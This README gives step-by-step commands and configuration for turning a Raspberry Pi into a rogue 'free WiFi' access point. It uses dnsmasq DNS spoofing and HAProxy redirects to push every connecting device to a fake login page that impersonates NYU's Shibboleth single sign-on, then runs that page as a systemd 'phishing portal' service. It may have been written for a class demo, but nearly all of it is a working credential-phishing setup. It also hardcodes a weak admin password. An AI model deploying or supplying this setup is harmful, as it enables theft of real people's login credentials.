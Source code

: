 # Raspberry Pi Project

Materials:
- Raspberry Pi
- microSD card with Raspberry Pi OS Lite
- Peripherals
- USB WiFi adapter with AP mode supported

### Instructions

reference: https://raspberrytips.com/access-point-setup-raspberry-pi/, chatgpt :), https://gist.github.com/theprojectsomething/a8406ba6be3ed3335fb3a2e5efea4b41
Instructions start from a Raspberry Pi with Raspberry Pi OS Lite, WiFi adapter, etc. all connected. You are logged in through SSH through Ethernet.

1. Update the OS.

```bash
sudo apt update
sudo apt full-upgrade
sudo reboot
```

2. Update the Raspberry Pi config.

```bash
sudo raspi-config
```

3. Install Node.js, NPM and HAProxy.

```bash
sudo apt install nodejs npm haproxy
```

4. Clone the project and install dependencies.

```bash
git clone https://github.com/acandoo/fake-login-screen.git
cd fake-login-screen
npm install
```

5. Check the interface name of the USB WiFi adapter.

```bash
ip link show
```
The rest of these instructions assume the USB WiFi adapter is on interface wlan1 and the Pi's internal WiFi on wlan0.

6. Switch to wlan1 for wireless connections, and configure NetworkManager for the adapter to act as a WiFi hotspot

```bash
sudo nmcli connection up preconfigured ifname wlan1
sudo nmcli con add con-name CS4CS ifname wlan0 type wifi ssid "CS4CS-Free-WiFi"
sudo nmcli con modify CS4CS 802-11-wireless.mode ap 802-11-wireless.band bg ipv4.method shared
```

7. Setup dnsmasq

In `/etc/NetworkManager/NetworkManager.conf`:

```
[main]
# ...insert previous config
dns=dnsmasq
# ...insert config after
```

In `/etc/NetworkManager/dnsmasq.d/dnsmasq.conf`:

```
# dhcp range for the hotspot network
dhcp-range=10.42.0.10,10.42.0.100,12h

# set the router IP (the hotspot IP)
dhcp-option=3,10.42.0.1

# advertise modern captive portal (uses HTTP so no SSL cert needed (!))
dhcp-option-force=114,http://shibboleth.nyu.edu/captive-api

# force all DNS queries to return your portal IP (DNS spoofing)
address=/#/10.42.0.1

# some global options
domain-needed
bogus-priv
expand-hosts
```

Then restart NetworkManager:

```bash
sudo systemctl restart NetworkManager
```

8. Setup HAProxy

```bash
sudo cp /etc/haproxy/haproxy.cfg /etc/haproxy/haproxy.cfg.bak
```

In `/etc/haproxy/haproxy.cfg`:
```
# /etc/haproxy/haproxy.cfg
# HAProxy config with optional HTTPS (to enable follow steps 1-4 below)
global
  log /dev/log    local0
  log /dev/log    local1 notice
  chroot /var/lib/haproxy
  stats socket /run/haproxy/admin.sock mode 660 level admin expose-fd listeners
  stats timeout 30s
  user haproxy
  group haproxy
  daemon

  # (these lines are likely out of date - you might consider updating them)
  # See: https://ssl-config.mozilla.org/#server=haproxy&server-version=2.0.3&config=intermediate
  ssl-default-server-ciphers ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-CHACHA20-POLY1305:ECDHE-RSA-CHACHA20-POLY1305:DHE-RSA-AES128-GCM-SHA256:DHE-RSA-AES256-GCM-SHA384:DHE-RSA-CHACHA20-POLY1305
  ssl-default-server-ciphersuites TLS_AES_128_GCM_SHA256:TLS_AES_256_GCM_SHA384:TLS_CHACHA20_POLY1305_SHA256
  ssl-default-server-options ssl-min-ver TLSv1.2 no-tls-tickets
  tune.ssl.default-dh-param 2048

defaults
  log     global
  mode    http
  option  httplog
  option  dontlognull
  timeout connect 5000
  timeout client  50000
  timeout server  50000
  errorfile 400 /etc/haproxy/errors/400.http
  errorfile 403 /etc/haproxy/errors/403.http
  errorfile 408 /etc/haproxy/errors/408.http
  errorfile 500 /etc/haproxy/errors/500.http
  errorfile 502 /etc/haproxy/errors/502.http
  errorfile 503 /etc/haproxy/errors/503.http
  errorfile 504 /etc/haproxy/errors/504.http

frontend localhost
  bind *:80
  ###
  # HTTPS STEP 1: uncomment line 42 below
  # - binds to port 443 with our combined certificate (don't forget to update the domain)
  ###
  # bind *:443 ssl crt /etc/haproxy/certs/captivity.bytes.pem
  mode http

  # match our primary domain
  acl is_portal hdr(host) -i shibboleth.nyu.edu

  # match OS-specific captive portal checks
  acl is_captive_modern path_beg /captive-api
  acl is_captive_apple hdr(host) -f /etc/haproxy/captive/captive-apple.lst
  acl is_captive_android hdr(host) -f /etc/haproxy/captive/captive-android.lst
  # acl is_captive hdr(User-Agent) -i CaptiveNetworkSupport

  ###
  # HTTPS STEP 2: comment line 58 below and uncomment line 59
  # - redirects to our base domain if nothing matches
  ###
  http-request redirect code 302 location http://shibboleth.nyu.edu if !is_portal !is_captive_apple !is_captive_android
  # http-request redirect code 302 location https://captivity.bytes if !is_portal !is_captive_apple !is_captive_android

  ###
  # HTTPS STEP 3: uncomment line 65 below
  # - redirects all requests to https
  ###
  # redirect scheme https if !{ ssl_fc } is_portal

  # send traffic to captive responses or portal
  use_backend captive_modern if is_captive_modern
  use_backend captive_apple if is_captive_apple
  use_backend captive_android if is_captive_android
  use_backend portal if is_portal

backend portal
  mode http
  balance roundrobin
  option forwardfor
  option httpchk HEAD / HTTP/1.1\r\nHost:localhost
  server portal 127.0.0.1:8080 check
  http-request set-header X-Forwarded-Port %[dst_port]
  ###
  # HTTPS STEP 4: uncomment line 84 below
  # - adds https redirect/forwarding header
  ###
  # http-request add-header X-Forwarded-Proto https if { ssl_fc }

backend captive_modern
  errorfile 503 /etc/haproxy/captive/captive-modern.http

backend captive_apple
  errorfile 503 /etc/haproxy/captive/captive-apple.http

backend captive_android
  errorfile 503 /etc/haproxy/captive/captive-android.http

# HAProxy Stats GUI - don't forget to update "user:pass" below (!)
listen stats
  bind              0.0.0.0:8888
  mode              http
  stats             enable
  option            httplog
  stats             show-legends
  stats             uri /
  stats             realm Haproxy\ Statistics
  stats             refresh 5s
  stats             auth cs4cs:password123
```

Now put the other captive checks (too lazy to put here so check the referenced gist and make modifications as necessary)
https://gist.github.com/theprojectsomething/a8406ba6be3ed3335fb3a2e5efea4b41

9. Run the phishing portal as a systemd service.
```
# /home/cs4cs/.config/systemd/user/captiveportal.service
[Unit]
Description=systemd captive portal node.js startup
After=network.target

[Service]
WorkingDirectory=%h/fake-login-screen
ExecStart=/usr/bin/node %h/fake-login-screen/index.js
Environment="PATH=/usr/bin:/usr/local/bin"
Environment=NODE_ENV=production
ExecReload=/bin/kill -s HUP $MAINPID
KillMode=mixed
TimeoutStopSec=5
PrivateTmp=true
Restart=on-failure

[Install]
WantedBy=default.target
```

```bash
systemctl --user daemon-reload
systemctl --user enable --now captiveportal.service
```
